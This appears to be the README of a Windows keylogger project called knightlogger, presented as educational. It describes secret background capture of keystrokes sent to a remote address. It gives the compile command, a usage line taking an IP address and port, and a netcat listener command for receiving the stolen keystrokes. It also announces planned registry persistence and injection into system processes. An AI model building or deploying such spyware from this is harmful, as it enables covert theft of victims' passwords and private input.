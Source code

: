 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms
# options:
- remote access keylogger
- works in background secretly
 -> additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`g++ -o knightlogger.exe knightlogger.cpp -lwsock32`

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

